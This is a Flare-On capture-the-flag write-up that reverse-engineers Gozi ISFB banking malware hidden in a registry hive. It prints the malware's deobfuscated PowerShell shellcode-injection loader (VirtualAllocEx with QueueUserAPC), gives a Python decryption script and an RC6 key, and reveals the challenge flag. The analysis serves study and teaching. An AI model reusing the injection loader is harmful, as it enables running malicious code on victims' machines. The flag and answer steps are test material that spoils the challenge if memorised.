 11 - rabbithole

# Challenge 11 - rabbithole

For this challenge we are provided only with the file `NTUSER.dat`, and the suggestion that the computer it was extracted from was infected with modified "banking" malware. If we poke around in its registry entries, we discover a large BASE64 string encoded in it, which it appears to decode then execute:

![99d98b9fcfce4437e08e9b449b186b67.png](../_resources/552ffab95a83434b9e3beadd06cf7d43.png)

Decoding the BASE64 strings reveal the following powershell script:
```powershell
function hjmk
{
	[System.Convert]::FromBase64String($args[0]);
};
[byte[]] $rpl = hjmk("6feZAAA0 ... AAAAAAAAAAAA");

function geapmkxsiw
{
	$kjurpkot=hjmk($args[0]);
	[System.Text.Encoding]::ASCII.GetString($kjurpkot);
};

iex(geapmkxsiw("DQokY3Fs ... cnU7DQo="));
iex(geapmkxsiw("DQoNCiRq ... Cn0NCn=="));

```

The two BASE64-encoded commands it runs using `iex` are below. Note that obfuscated variable names have been cleaned up

```powershell
# -------- PSH.1 --------
$imports1 = "
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentThreadId();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr OpenThread(uint nopeyllax, uint itqxlvpc, IntPtr weo);`n
[DllImport(`"kernel32`")]`npublic static extern uint QueueUserAPC(IntPtr lxqi, IntPtr qlr, IntPtr tgomwjla);`n
[DllImport(`"kernel32`")]`npublic static extern void SleepEx(uint wnhtiygvc, uint igyv);";

$NET1 = Add-Type -memberDefinition $imports1 -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj = "ffcx";
$imports2 = "
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentProcess();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy, IntPtr htdgqhgpwai, uint uxn, uint mepgcpdbpc, uint xdjp);";

$NET2 = Add-Type -memberDefinition $imports2 -Name 'pqnvohlggf' -namespace rmb -passthru;

# -------- PSH.2 --------
$jky = "epnc";

# THREAD_SET_CONTEXT (0x0010)
$thread = $NET1::OpenThread(16, 0, $NET1::GetCurrentThreadId());

# PAGE_EXECUTE_READWRITE (0x40)
if($buffer = $NET2::VirtualAllocEx($NET2::GetCurrentProcess(), 0, $rpl.Length, 12288, 64))
{
	[System.Runtime.InteropServices.Marshal]::Copy($rpl, 0, $buffer, $rpl.length);
	if($NET1::QueueUserAPC($buffer, $thread, $buffer))
	{
		$NET1::SleepEx(5, 3);
	}
}

```

Now we can just save the powershell script file and execute it. Getting a breakpoint on the code being executed is as simple as looking for an `NtAllocateVirtualMemory` call with a size that matches the data (86016 bytes):
![7190438a8c8b895ab825d67a3544f8d5.png](../_resources/effd2958c1d949af9ae4a169d7997bdf.png)

Next we can just breakpoint on the allocated memory region:
![2d4a81f5343c7a2ba43a46d1a0b49ff2.png](../_resources/a3a75db9f28541b0b70399e126f9c35f.png)

Poking around in the ASM of the program, we can see it dynamically loading libraries and functions:
![61fcf8fb6de76a68fc639895ce761bdc.png](../_resources/cb63d1ab72c94b3ebeb378ab341f14d3.png)

The binary becomes a bit more readable once we add in function names manually, by looking up their pointer values in WinDbg:
![7fbf2dbb044860fb52cc92ce5a371b65.png](../_resources/b58cfafc671d4cc0adb4a506a006e426.png)

Through more examination, we come across the following code, where `NtQueryInformationToken` is used to acquire the user SID, which is then obfuscated and stored as a key and referenced later:
![c4bbd3b26de9bf0c12be9567384c5d1c.png](../_resources/5b879d8cb8a6449cad8751ac094bb4a4.png)

Using WinDbg we can output the values it has read and compare them to the actual SID values on the current VM: 
![732812667272ffd5635f659416b04a33.png](../_resources/cabb24b5d3524fd294333ef68126c6ac.png)
![8af3a0674d2dbcec4bec959a5e14fe37.png](../_resources/b20011e740b24ed0b3c9ac850e072210.png)

The program is reading the SID for the `Me` user, and the obfuscated key is stored on a heap at offset `78h`:
![bfdb5fde8f2bdd90fc4b78dc0e22b2a4.png](../_resources/88a36c52ba154ac9a605539ce8d0d344.png)

A bit later this SID value is put onto a new heap at offset `8h`:
![01287af7d81c858ad2cd611f3a583267.png](../_resources/453fce49f2b445919b8ca636d01bb4db.png)
![ee820a32df6e5bb2cb5d2b15fba21202.png](../_resources/d4f29573d32d48ad9a799f09be0bad7e.png)

And finally, it is referenced in a string generator:
![64fb9eb8fd696ce452c099c0a9776d99.png](../_resources/dac0a698fcef47bc851f2b0c3a3f9538.png)


What does this all mean? Process Monitor shows some attempts the program was making to read registry keys, but they all failed and the program ceased execution. Let's look up the SID for the user inside the `NTUSER.dat` file and replace the SID value the program is using:

![646116441b75fc519a0884d12dfba21a.png](../_resources/8e4927851c5e40c3bce5f2bee316a6cd.png)
SID value: `S-1-5-21-3823548243-3100178540-2044283163-1006`

Before and after replacing the SID value in the program:
![e5779565323c43cc9226bb4fff7df114.png](../_resources/1367c2e3a6b247008937d8f52d3a99b6.png)
becomes:
![9af0c101255996f089ff85c701dca1f3.png](../_resources/e007b6d7fdcf4b059255864b338cb989.png)

These are the entries we could see earlier, some of which contained the BASE64 powershell scripts, so now the program appears to be functioning correctly. The program now will spawn a new thread in `explorer.exe`, which itself will in turn create many threads of its own, but nothing too interesting is happening from a glance at ProcMon.

At the specified offset we can see some code where the program is comparing the beginning of memory sections with the bytes `PX`, displayed backwards due to little-endian encoding:
![15d44856debe88e1e457f0c63d5edc61.png](../_resources/9f2d6d34908c4cde86ac24965c786e3e.png)

Searching for files with a `PX` header online yields hits relating to the Ursnif and Gozi ISFB malware family. Notably this malware family is described as a set of "banking" viruses, and also make use of the user SID and the registry during execution! That sounds like a perfect match to what we've seen so far.

The Gozi ISFB branch has actually had its source code uploaded to [GitHub](https://github.com/gbrindisi/malware/tree/667b44f64edcd1c5e8c42489b8e767813a589158/windows/gozi-isfb)..

We can dump the memory of the PX file at RBX, then use tools released for dealing with ISFB PX files:
![d9e2dce3af53ae843299645723c282d8.png](../_resources/39d1aac9b10547fe9bca94ce44990813.png)

Using an [__ISFB parser__](https://github.com/hasherezade/funky_malware_formats/tree/master/isfb_parser), we can convert the data into a valid .dll:
![b79c461b82f1788e0b9210e4e9065aa2.png](../_resources/89263364a4494a31b4d16affbee4c9ca.png)

Now the .dll can properly load in IDA:
![b2a2c8f27492642b74e131beb31d98a5.png](../_resources/86935949e2e74e13af86f60163226820.png)

The `explorer.exe` threads also creates 3 more PX files, so we should dump those too:
![064005fe4bf986aa0fef279d3d2691f7.png](../_resources/16f4f6406e2d45b8b976d10e0a06182a.png)
![fc0e074198bfae1129d60e697b7ada8c.png](../_resources/8c33728193a24efcbebae4218399d31a.png)
![040df321169f040f6e198e76d35d8407.png](../_resources/ba57c5fe099a4c599f492538eb70e98e.png)

Looking around these 4 .dll files and comparing them to the source code (over the course of more than a few days...), the most notable function calls are the following:
![ddb06c84cd1ee26f1ff91aecf02fd9ac.png](../_resources/c60cb59001a74f839cc4d5b0b969fdf7.png)

This function decrypts a [DS_HEADER struct](https://github.com/gbrindisi/malware/blob/667b44f64edcd1c5e8c42489b8e767813a589158/windows/gozi-isfb/crypto/sign.c#L20), which contains the MD5 and RC6 decryption key, size, and salt of the rest of the encrypted data.

![5559d1c11df7d56a7f9b106adce79c75.png](../_resources/9c328fd69ea14ad991e22718a684f59f.png)
This function encrypts or decrypts a block of data using the given RC6 key.

The malware tries to send several HTTP requests shown below, but the data the program is encrypting and decrypting doesn't ever seem to be too interesting.
![530a4d9edaf5767ad50f7f87418a4abb.png](../_resources/d453ee41bea5439da2d18af8f42a9062.png)

Looking back at ProcMon, one entry that sticks out is the following CreateFile entry:
![b98e6653a4adc41f03cebc9ccfd73846.png](../_resources/b1fce937b52048c8aa39b22198f31a59.png)

The malware attempted to read a file, but it didn't exist. We can trace the call back to the following function:
![baacbf012534563b3aa813da1994485c.png](../_resources/cf9494221dfc4d8899c51f9773bdc042.png)

If we follow the path of this data, before anything is sent through HTTP we end up here:
![624689baf81e4608fb811c51334ce8c7.png](../_resources/72f5703c768442db861f98f4cf4d6537.png)

The RC6 encryption is applied to the file using the key `GSPyrv3C79ZbR0k1`, then it is passed to another encryption function seen below. The final result is saved into the registry by generating a string. Note that ECX is set to 0x7F7F, which when passed to the string generator discovered earlier creates the string `DiMap`.
![781ec214f342c4f1e12a7368187e3d2b.png](../_resources/a236633e8bfb4fb6b94ad9c3cd4ae381.png)
![6e006b60ba1a59e1bbc6de2b5747eb33.png](../_resources/e2641bb1502a401ca89bf247b17eda9b.png)

Checking the `DiMap` entry in the `NTUSER.dat` registry file, we come across the following:
```txt
"DiMap"=hex:04,0c,01,81,e1,85,1f,ef,8d,89,0f,ab,13,a6,a2,64,ef,f5,44,b7,10,d0,\
  a8,f5,73,1f,9c,ff,06,9f,fc,23,08,4a,11,3a,92,3c,5f,51,71,70,9b,d0,76,9f,50,\
  e7,11,a7,22,ce,48,c7,f3,69,78,72,1c,a2,05,b6,f2,31,a5,a4,ba,a6,f3,71,e0,61,\
  4b,ad,55,66,ba,34,4f,a0,49,37,e6,ef,58,57,56,07,b2,fb,13,63,bc,c2,0b,e3,d2,\
  91,f7,b7,1a,76,6a,42,e3,e8,2f,09,31,2f,4f,e2,91,44,54,ef,c7,8c,23,35,0d,25,\
  f1,e1,38,80,14,b7,f2,7c,55,38,2a,9b,b4,11,d0,63,1f,24,28,90,f1,f3,e7,c8,74,\
  46,02,ea,66,ce,1b,a9,71,cc,1b,12,b3,97,9e,05,8b,19,04,73,1f,83,e5,d7,da,f9,\
  05,83,f5,71,70,d4,59,c2,1f,d7,d4,7e,6e,77,1a,c3,58,cb,b9,34,1c,81,73,c9,de,\
  a9,64,9a,6e,fd,0f,e2,c3,3d,c3,a3
  ```
We can undo the XOR encryption first with the following Python script:
```py
dat = [0x04, 0x0c, 0x01, 0x81, 0xe1, 0x85, 0x1f, 0xef, 0x8d, 0x89, 0x0f, 0xab, 0x13, 0xa6, 0xa2, 0x64, 0xef, 0xf5, 0x44, 0xb7, 0x10, 0xd0, 0xa8, 0xf5, 0x73, 0x1f, 0x9c, 0xff, 0x06, 0x9f, 0xfc, 0x23, 0x08, 0x4a, 0x11, 0x3a, 0x92, 0x3c, 0x5f, 0x51, 0x71, 0x70, 0x9b, 0xd0, 0x76, 0x9f, 0x50, 0xe7, 0x11, 0xa7, 0x22, 0xce, 0x48, 0xc7, 0xf3, 0x69, 0x78, 0x72, 0x1c, 0xa2, 0x05, 0xb6, 0xf2, 0x31, 0xa5, 0xa4, 0xba, 0xa6, 0xf3, 0x71, 0xe0, 0x61, 0x4b, 0xad, 0x55, 0x66, 0xba, 0x34, 0x4f, 0xa0, 0x49, 0x37, 0xe6, 0xef, 0x58, 0x57, 0x56, 0x07, 0xb2, 0xfb, 0x13, 0x63, 0xbc, 0xc2, 0x0b, 0xe3, 0xd2, 0x91, 0xf7, 0xb7, 0x1a, 0x76, 0x6a, 0x42, 0xe3, 0xe8, 0x2f, 0x09, 0x31, 0x2f, 0x4f, 0xe2, 0x91, 0x44, 0x54, 0xef, 0xc7, 0x8c, 0x23, 0x35, 0x0d, 0x25, 0xf1, 0xe1, 0x38, 0x80, 0x14, 0xb7, 0xf2, 0x7c, 0x55, 0x38, 0x2a, 0x9b, 0xb4, 0x11, 0xd0, 0x63, 0x1f, 0x24, 0x28, 0x90, 0xf1, 0xf3, 0xe7, 0xc8, 0x74, 0x46, 0x02, 0xea, 0x66, 0xce, 0x1b, 0xa9, 0x71, 0xcc, 0x1b, 0x12, 0xb3, 0x97, 0x9e, 0x05, 0x8b, 0x19, 0x04, 0x73, 0x1f, 0x83, 0xe5, 0xd7, 0xda, 0xf9, 0x05, 0x83, 0xf5, 0x71, 0x70, 0xd4, 0x59, 0xc2, 0x1f, 0xd7, 0xd4, 0x7e, 0x6e, 0x77, 0x1a, 0xc3, 0x58, 0xcb, 0xb9, 0x34, 0x1c, 0x81, 0x73, 0xc9, 0xde, 0xa9, 0x64, 0x9a, 0x6e, 0xfd, 0x0f, 0xe2, 0xc3, 0x3d, 0xc3, 0xa3]

def decrypt():
	dword = 0
	dword_old = 0
	dword_xor = 0

	key = 0xfb307bfa
	rot = 4

	for i in range(0, len(dat), 4):
		dword = dat[i] | (dat[i+1] << 8) | (dat[i+2] << 16) | (dat[i+3] << 24)
		dword_old = dword

		dword ^= key
		dword ^= dword_xor
		dword_xor = dword_old

		rot ^= 4
		dword = ((dword << rot) & 0xFFFFFFFF) | (dword >> (32 - rot))

		dat[i] = dword & 0xFF
		dat[i+1] = (dword >> 8) & 0xFF
		dat[i+2] = (dword >> 16) & 0xFF
		dat[i+3] = (dword >> 24) & 0xFF

	print([hex(h) for h in dat])
	# ['0xfe', '0x77', '0x31', '0x7a', '0xf9', '0x21', '0xef', '0x52', '0x96', '0x77', '0x20', '0xbf', '0x43', '0x46', '0xd5', '0x49', '0x6', '0x28', '0xd6', '0x28', '0x5b', '0xe0', '0xc5', '0x9d', '0x99', '0xb4', '0x4', '0xf1', '0xf2', '0xb8', '0xf', '0x75', '0xf4', '0xae', '0xdd', '0xe2', '0x9', '0xd6', '0xe0', '0x7', '0x19', '0x37', '0xf4', '0x7a', '0xdc', '0x4f', '0xb9', '0xcf', '0x9d', '0x43', '0x42', '0xd2', '0x35', '0xba', '0x11', '0xce', '0xca', '0xce', '0xdf', '0x30', '0x76', '0xf8', '0xeb', '0x8d', '0x5a', '0x69', '0x78', '0x6c', '0xc3', '0xea', '0xaa', '0xc6', '0x42', '0xa7', '0x85', '0xfc', '0xb3', '0x20', '0xae', '0xd2', '0x9', '0x78', '0x99', '0xb4', '0xb1', '0xbe', '0x1', '0x38', '0x10', '0xd7', '0x75', '0x9f', '0x47', '0x2f', '0x84', '0xb2', '0x94', '0x28', '0xcc', '0xaf', '0x20', '0xc3', '0xd9', '0xea', '0x3', '0xe5', '0x75', '0xb0', '0x81', '0xc2', '0xb', '0x5', '0x5a', '0x10', '0x2b', '0xf6', '0xc2', '0x3a', '0x7b', '0x14', '0x30', '0xd2', '0xe2', '0x2f', '0xfa', '0xec', '0x5d', '0xdd', '0x30', 0x87', '0x71', '0x74', '0x2d', '0xc2', '0x19', '0x2d', '0x0', '0x83', '0x9b', '0xce', '0x22', '0x80', '0xe8', '0xcd', '0x35', '0x23', '0xb5', '0x4e', '0xf7', '0x91', '0x25', '0x32', '0xe3', '0x38', '0x27', '0xf9', '0xaa', '0xf', '0x2c', '0xf', '0x7f', '0x6c', '0x8', '0x75', '0x6', '0xd6', '0x40', '0x1a', '0x1b', '0xdf', '0xf5', '0x81', '0xa7', '0xf1', '0xf2', '0x31', '0x8f', '0x2c', '0x9c', '0x48', '0x54', '0x89', '0xd7', '0x7b', '0x8b', '0xdb', '0xfe', '0x46', '0xc0', '0x7c', '0x3c', '0xc9', '0xbe', '0x31', '0xfa', '0x6', '0x8a', '0x33', '0x75', '0x82', '0x4a', '0x2f', '0x5b', '0x83', '0x7b', '0xb5', '0xcb', '0xaf']
```

Now we just have to use the RC6 decryption method using the key found in the ASM above (`GSPyrv3C79ZbR0k1`), and we should be able to decrypt the file that was saved into the registry. The easiest way to do that is just copying the data into the debugger and letting the program do it for us, then printing the result:

![c30a28ff14ae415eca03f5e53f913faa.png](../_resources/9f9f2e5b7eac40c995a41a93b70619f2.png)

Flag: `r4d1x_m4l0rum_357_cup1d1745@flare-on.com`
